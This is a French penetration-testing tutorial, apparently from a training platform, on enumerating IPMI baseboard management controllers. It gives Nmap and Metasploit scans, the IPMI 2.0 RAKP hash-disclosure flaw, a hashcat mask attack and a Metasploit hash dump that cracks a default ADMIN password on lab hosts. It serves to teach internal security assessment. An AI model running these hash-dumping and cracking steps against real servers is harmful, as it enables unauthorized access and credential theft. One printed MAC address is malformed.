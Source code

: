 # Enumération des services

## IPMI

L'interface de gestion de plate-forme intelligente (IPMI) est un ensemble de spécifications normalisées pour les systèmes de gestion d'hôte basés sur le matériel utilisés pour la gestion et la surveillance du système. Il agit comme un sous-système autonome et fonctionne indépendamment du BIOS, du processeur, du micrologiciel et du système d'exploitation sous-jacent de l'hôte. IPMI offre aux administrateurs système la possibilité de gérer et de surveiller les systèmes même s'ils sont éteints ou dans un état qui ne répond pas. Il fonctionne à l'aide d'une connexion réseau directe au matériel du système et ne nécessite pas d'accès au système d'exploitation via un shell de connexion. IPMI peut également être utilisé pour les mises à niveau à distance des systèmes sans nécessiter d'accès physique à l'hôte cible. IPMI est généralement utilisé de trois manières:

+ Avant le démarrage du système d'exploitation pour modifier les paramètres du BIOS
+ Lorsque l'hôte est complètement éteint
+ Accès à un hôte après une panne du système

Lorsqu'il n'est pas utilisé pour ces tâches, IPMI peut surveiller une gamme de choses différentes telles que la température du système, la tension, l'état du ventilateur et les alimentations. Il peut également être utilisé pour interroger les informations d'inventaire, consulter les journaux du matériel et alerter à l'aide de SNMP. Le système hôte peut être mis hors tension, mais le module IPMI nécessite une source d'alimentation et une connexion LAN pour fonctionner correctement.

Le protocole IPMI a été publié pour la première fois par Intel en 1998 et est désormais pris en charge par plus de 200 fournisseurs de systèmes, dont Cisco, Dell, HP, Supermicro, Intel, etc. Les systèmes utilisant IPMI version 2.0 peuvent être administrés via série sur LAN, ce qui donne aux administrateurs système la possibilité de visualiser la sortie de la console série dans la bande. Pour fonctionner, IPMI nécessite les composants suivants:

+ Contrôleur de gestion de la carte de base (BMC) - Un microcontrôleur et un composant essentiel d'un IPMI
+ Intelligent Chassis Management Bus (ICMB) - Une interface qui permet la communication d'un châssis à un autre
+ Intelligent Platform Management Bus (IPMB) - étend le BMC
+ Mémoire IPMI - stocke des éléments tels que le journal des événements système, les données de stockage du référentiel, etc.
+ Interfaces de communication - interfaces système locales, interfaces série et LAN, bus de gestion ICMB et PCI

### Empreinte du service
IPMI communique sur le port 623 UDP. Les systèmes qui utilisent le protocole IPMI sont appelés Baseboard Management Controllers (BMC). Les BMC sont généralement implémentés en tant que systèmes ARM embarqués exécutant Linux et connectés directement à la carte mère de l'hôte. Les BMC sont intégrés à de nombreuses cartes mères, mais peuvent également être ajoutés à un système en tant que carte PCI. La plupart des serveurs sont livrés avec un BMC ou prennent en charge l'ajout d'un BMC. Les BMC les plus courants que nous voyons souvent lors des tests de pénétration internes sont HP iLO, Dell DRAC et Supermicro IPMI. Si nous pouvions accéder à un BMC lors d'une évaluation, nous obtiendrions un accès complet à la carte mère hôte et pourrions surveiller, redémarrer, éteindre ou même réinstaller le système d'exploitation hôte. L'accès à un BMC équivaut presque à un accès physique à un système. De nombreux BMC (y compris HP iLO, Dell DRAC et Supermicro IPMI) exposent une console de gestion basée sur le Web, une sorte de protocole d'accès à distance en ligne de commande tel que Telnet ou SSH, et le port 623 UDP, qui, encore une fois, est pour le Protocole réseau IPMI. Vous trouverez ci-dessous un exemple d'analyse Nmap utilisant le script Nmap ipmi-version NSE pour effectuer l'empreinte du service.

#### Scan Nnmap
```
dsgsec@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

#### Metasploit Version Scan
```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Paramètres dangereux
Si les informations d'identification par défaut ne fonctionnent pas pour accéder à un BMC, nous pouvons nous tourner vers une faille du protocole RAKP dans IPMI 2.0. Pendant le processus d'authentification, le serveur envoie un hachage SHA1 ou MD5 salé du mot de passe de l'utilisateur au client avant que l'authentification n'ait lieu. Cela peut être exploité pour obtenir le hachage du mot de passe pour TOUT compte utilisateur valide sur le BMC. Ces hachages de mot de passe peuvent ensuite être déchiffrés hors ligne à l'aide d'une attaque par dictionnaire utilisant le mode Hashcat 7300. Dans le cas où un HP iLO utilise un mot de passe par défaut, nous pouvons utiliser cette commande d'attaque de masque Hashcat 
```
hashcat -m 7300 ipmi.txt -a 3 ?1 ?1?1?1?1?1?1?1 -1 ?d?u
```
qui essaie toutes les combinaisons de lettres majuscules et de chiffres pour un mot de passe à huit caractères.

Il n'y a pas de "résolution" directe à ce problème car la faille est un composant critique de la spécification IPMI. Les clients peuvent opter pour des mots de passe très longs et difficiles à déchiffrer ou implémenter des règles de segmentation du réseau pour restreindre l'accès direct aux BMC. Il est important de ne pas négliger IPMI lors des tests d'intrusion internes (nous le voyons lors de la plupart des évaluations) car non seulement nous pouvons souvent accéder à la console Web BMC, ce qui est une découverte à haut risque, mais nous avons vu des environnements où un unique ( mais craquable) un mot de passe est défini qui est ensuite réutilisé sur d'autres systèmes. Lors d'un de ces tests de pénétration, nous avons obtenu un hachage IPMI, l'avons craqué hors ligne à l'aide de Hashcat, et avons pu accéder en SSH à de nombreux serveurs critiques de l'environnement en tant qu'utilisateur root et accéder aux consoles de gestion Web pour divers outils de surveillance du réseau.

Pour récupérer les hachages IPMI, nous pouvons utiliser le module Metasploit IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval.

#### Metasploit Dumping Hashes
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Ici, nous pouvons voir que nous avons réussi à obtenir le hachage du mot de passe pour l'utilisateur ADMIN, et l'outil a pu le déchiffrer rapidement pour révéler ce qui semble être un mot de passe par défaut ADMIN. À partir de là, nous pourrions tenter de nous connecter au BMC ou, si le mot de passe était quelque chose de plus unique, vérifier la réutilisation du mot de passe sur d'autres systèmes. IPMI est très courant dans les environnements réseau, car les administrateurs système doivent pouvoir accéder aux serveurs à distance en cas de panne ou effectuer certaines tâches de maintenance qu'ils auraient traditionnellement dû être physiquement devant le serveur pour effectuer. Cette facilité d'administration s'accompagne du risque d'exposer les hachages de mot de passe à quiconque sur le réseau et peut entraîner un accès non autorisé, une interruption du système et même l'exécution de code à distance. La vérification de l'IPMI devrait faire partie de notre manuel de test d'intrusion interne pour tout environnement que nous évaluons.
